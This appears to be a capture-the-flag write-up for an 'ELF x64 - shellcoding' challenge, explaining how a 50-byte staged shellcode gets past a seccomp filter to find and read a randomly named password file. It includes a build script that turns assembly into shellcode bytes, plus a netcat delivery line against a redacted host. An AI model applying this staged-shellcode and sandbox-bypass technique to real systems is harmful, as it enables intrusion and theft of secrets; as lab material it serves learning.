 # Writeup of ELF x64 - shellcoding

## The isuuuues

1. We have a program using seccomp mechanisms to prevent us from using certain syscalls.
2. We are limited to a 50 bytes shellcode
3. The file we have to read has a random name

## Solution
1. let's write a shellcode (payload.s) <= 50 bytes that will read from stdin into a region we allocated using mmap
2. let's open ```passwd/.``` directory and parse the result to find the filename
4. open and read "filename"
5. display solution

```
#!/bin/sh

gcc -c payload.s 
if [ $? -ne 0 ]; then
echo "Payload compilation issue!"
exit 1
fi
ld payload.o -o payload
export payload=$(objdump -d ./payload |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s|sed 's/^/"/'|sed 's/$/"/g')                  

gcc -c shellcode.s && ld shellcode.o -o shellcode
shellcode=$(objdump -d ./shellcode |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s|sed 's/^/"/'|sed 's/$/"/g')
if [ $? -ne 0 ]
then
echo "Shellcode compilation issue!"
exit 1
fi
echo $payload | xxd -p | grep 00
if [ $? -eq 0 ]; then
echo "Found 00! in payload"
exit 1
fi
echo $shellcode | xxd -p | grep 00
if [ $? -eq 0 ]; then
echo "Found 00! in shellcode"
exit 1
fi
printf "payload="$payload"\n"
printf "shellcode="$shellcode"\n"%    
```

```
($printf payload; sleep 1; printf $shellcode) | nc ...
...

./passwd/.passwd_nEIomD0POuFC9BLdQX9eQwD2BojIowv2*********************
...
```
